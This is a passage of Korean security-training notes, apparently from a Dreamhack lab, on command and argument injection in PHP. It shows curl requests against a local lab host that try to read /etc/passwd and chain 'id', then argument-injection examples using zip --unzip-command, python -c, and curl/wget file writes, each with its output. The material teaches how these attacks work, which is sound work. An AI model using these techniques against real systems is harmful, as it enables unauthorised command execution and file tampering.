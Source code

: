         var_dump(escapeshellarg("a -h -d -e"));
        // 출력: string(14) "'a -h -d -e'"
        ```
        
        ```python
        dreamhack@ubuntu:~$ curl 'http://dreamhack.local/cmdi.php?filename=-al%20/etc/passwd;%20id'
        ls: cannot access '/etc/passwd;': No such file or directory
        ls: cannot access 'id': No such file or directory
        dreamhack@ubuntu:~$ curl 'http://dreamhack.local/cmdi.php?filename=-al%20/etc/passwd'
        -rw-r--r-- 1 root root 1602 May  4 04:35 /etc/passwd
        ```
        
- 공격 예시
    - zip : 압축 파일을 생성하거나 해제하는 명령어 `--unzip-command` 인자를 이용해 인자로 전달된 명령어를 실행
        
        ```python
        $ zip /tmp/test.zip /etc/passwd -T --unzip-command="sh -c id"
        updating: etc/passwd (deflated 64%)
        uid=1000(dreamhack) gid=1000(dreamhack) groups=1000(dreamhack)
        test of /tmp/test.zip OK
        ```
        
    - python : `-c` 옵션을 통해 명령줄로 코드를 실행할 수 있다
        
        ```python
        $ python -c '__import__("os").system("id")' input.py
        uid=1000(dreamhack) gid=1000(dreamhack) groups=1000(dreamhack)
        ```
        
    - curl : 전달된 URL에 접속하는 CLI 프로그램. 실행은 할 수 없지만 `-o` 옵션을 통해 임의 경로에 파일을 저장 가능
        
        ```python
        $ curl  http://dreamhack.local -o /tmp/hello.txt
        Hello !
        $ cat /tmp/hello.txt
        Hello !
        ```
        
    - wget : 전달된 URL에 접속해 파일을 다운로드하는 용도로 사용되는 프로그램. `-O` 옵션을 통해 임의 경로에 파일 저장 가능
        
        ```python
        $ wget http://dreamhack.local -O hello.txt
        --2020-05-20 14:28:56--  http://dreamhack.local/
        Resolving dreamhack.local (dreamhack.local)... 127.0.0.1
        Connecting to dreamhack.local (dreamhack.local)|127.0.0.1|:80... connected.
        HTTP request sent, awaiting response... 200 OK
        Length: 288 [text/html]
        Saving to: ‘/tmp/hello.txt’
        /tmp/hello.txt                    100%[============================================>]     288  --.-KB/s    in 0s      
        2020-05-20 14:28:56 (22.9 MB/s) - ‘/tmp/hello.txt’ saved [288/288]
        $ cat /tmp/hello.txt
        Hello !
        ```